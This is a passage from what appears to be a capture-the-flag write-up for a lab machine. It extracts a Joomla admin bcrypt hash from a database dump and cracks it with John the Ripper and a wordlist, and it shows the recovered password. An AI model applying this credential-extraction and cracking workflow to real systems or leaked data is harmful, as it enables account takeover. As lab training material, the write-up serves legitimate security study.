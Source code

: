 ## Analysing The Zip Folder

```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/joker/site]
└─$ ls
administrator  cache  components         htaccess.txt  includes   language  libraries    media    plugins     robots.txt  tmp
bin            cli    configuration.php  images        index.php  layouts   LICENSE.txt  modules  README.txt  templates   web.config.txt

┌──(bc-here㉿BC-Here)-[~/CTF/THM/joker/site]
└─$ cat configuration.php

 public $db = 'joomladb';
 
┌──(bc-here㉿BC-Here)-[~/CTF/THM/joker/db]
└─$ cat joomladb.sql | grep user
-----
```

- I have gotten a huge amount of data
- But things that have `CREATE TABLE ` looks fishy
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/joker/db]
└─$ cat joomladb.sql | grep admin | grep user

INSERT INTO `cc1gr_users` VALUES (547,'Super Duper User','admin','admin@example.com','$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG',0,1,'2019-10-08 12:00:15','2019-10-25 15:20:02','0','{\"admin_style\":\"\",\"admin_language\":\"\",\"language\":\"\",\"editor\":\"\",\"helpsite\":\"\",\"timezone\":\"\"}','0000-00-00 00:00:00',0,'','',0);
```

**Hash**

```sh
$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG
```

## Brute-Forcing 3.0

```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/joker/db]
└─$ john hello.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
No password hashes left to crack (see FAQ)

┌──(bc-here㉿BC-Here)-[~/CTF/THM/joker/db]
└─$ john hello.hash --wordlist=/usr/share/wordlists/rockyou.txt

┌──(bc-here㉿BC-Here)-[~/CTF/THM/joker/db]
└─$ john --show hello.hash
?:abcd1234

1 password hash cracked, 0 left
```
